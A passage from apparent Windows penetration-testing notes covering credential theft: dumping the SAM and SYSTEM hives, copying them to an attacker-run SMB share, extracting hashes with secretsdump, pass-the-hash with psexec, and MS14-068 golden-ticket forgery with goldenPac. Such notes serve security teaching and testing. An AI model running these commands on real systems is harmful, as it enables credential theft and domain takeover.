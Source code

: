 #### By copying the SAM and SYSTEM registry hives

First we backup the SAM and SYSTEM hashes

```
reg save hklm\system C:\Users\insert-user\system.hive

reg save hklm\sam C:\Users\insert-user\sam.hive
```

Then we will move the SAM and SYSTEM hives t our machine using smb server

```
attackerpc$ mkdir share 
attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username insert-user -password insert-password public share
```

Then on the target windows machine

```
C:\> copy C:\Users\insert-user\sam.hive \\ip\public\ 

C:\> copy C:\Users\insert-user\system.hive \\ip\public\
```

Lastly with impacket's sercetsdump.py we can extract passwords

```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

With the gained password, we can access the system using pass-the-hash

```
python3.9 /opt/impacket/examples/psexec.py -hashes [insert-hash] administrator@ip
```

### Exploiting PAC in Kerebros

This exploit is referenced as MS14–068. It allows a non-privileged user to obtain domain admin privileges by generating and acquiring a golden ticket. it works when PAC \[privileged attribute certificate] is enabled therefore the exploitation to be successful a forged PAC needs to be generated and accepted as legitimate by the kerberos key distriburtion center \[KDC].

For example, every PAC for every user contains information about the user such as permissions, privileges and groups. Generating a fake PAC is like telling the \[KDC] that a user has admin privileges and is a member of the admins group.

The \[goldenpac.py] tool from impacket helps achieve this purpose and renders an \[SMB] connection with PsExec method to gain domain admin privileges.

```
python goldenPac.py -dc-ip [ip] -target-ip [ip] DC-domain-name/username@target-computer-name
```

### Exploiting Server Operators Group

A user account who is part of server operator group can create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer.
